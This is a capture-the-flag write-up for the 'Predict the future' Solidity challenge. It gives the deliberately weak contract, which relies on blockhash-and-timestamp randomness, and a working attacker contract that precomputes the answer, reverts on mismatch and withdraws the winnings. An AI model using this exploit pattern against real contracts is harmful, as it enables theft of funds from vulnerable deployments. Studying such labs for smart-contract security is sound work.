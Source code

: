 # Predict the future

## Challenge

>This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.
>
>Note that it is indeed possible to solve this challenge without losing any ether.

```
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## Solution

This challenge separates guess placement from the ether settlement process. To ```lockInGuess``` the puzzle requires a payment of one ether. The ```lockInGuess``` function also assigns 3 state variables: the ```guesser``` is the address making the guess, the ```n``` value is the guess, and ```settlementBlockNumber``` is the transaction's block number plus one.

The settlement process requires the function caller to satisfy three conditions prior to receiving a transfer of ```2 ether```:
- The ```settle``` function call must be from the same address that made the guess
- The block number of the ```settle``` transaction must be greater than the ```lockInGuess``` transaction block
- The ```settle``` function regenerates a new ```answer``` to memory which is then checked against the function caller's guess value in contract state storage.

To solve this puzzle, we deploy an attack contract of our own which will include its own ```require()``` statements to check for these conditions prior to sending the message call. This process is a bit tedious and will require a bit of luck. I got it on the 5th try. Then replicated it and didn't get to make the call again for over 10 minutes.

Here is my Solidity contract solution, with notes:

```
pragma solidity ^0.4.24;

// interface referenced in the 'pull' contract
interface PredictTheFutureChallenge {
    function lockInGuess(uint8 n) public payable;
    function settle() public;
}

contract pull {
    address owner;

    // instantiate
    PredictTheFutureChallenge public predictFuture;

    // establish ownership of contract at deployment transaction
    constructor() public payable {
        owner = msg.sender;
    }

    // step 1: find contract address of vulnerable contract and input here
    function PredictTheFutureChallengePull(address _predictFuture) public {
        predictFuture = PredictTheFutureChallenge(_predictFuture);
    }

    // step 2: send 1 ether with this transaction along with guess of zero
    // I picked zero (can be any number between 0 - 9, inclusive)
    function futureGuesser() public payable {
        predictFuture.lockInGuess.value(msg.value)(0);
    }

    // step 3: submit this guy over and over until you get it right
    // revert should return any unspent gas, so it's not free but still cheap...
    function settlement() public {
        uint8 settleGuess = uint8(keccak256(blockhash(block.number - 1), now)) % 10;
        require(settleGuess == 0);
        predictFuture.settle();
    }

    // step 5: withdraw funds from pull contract back to externally owned address
    function withdraw() public {
        require(owner == msg.sender);
        msg.sender.transfer(address(this).balance);
    }

    // step 4: funds are automatically sent to
    // fallback function from vulnerable contract
    function() public payable {
    }

}
```
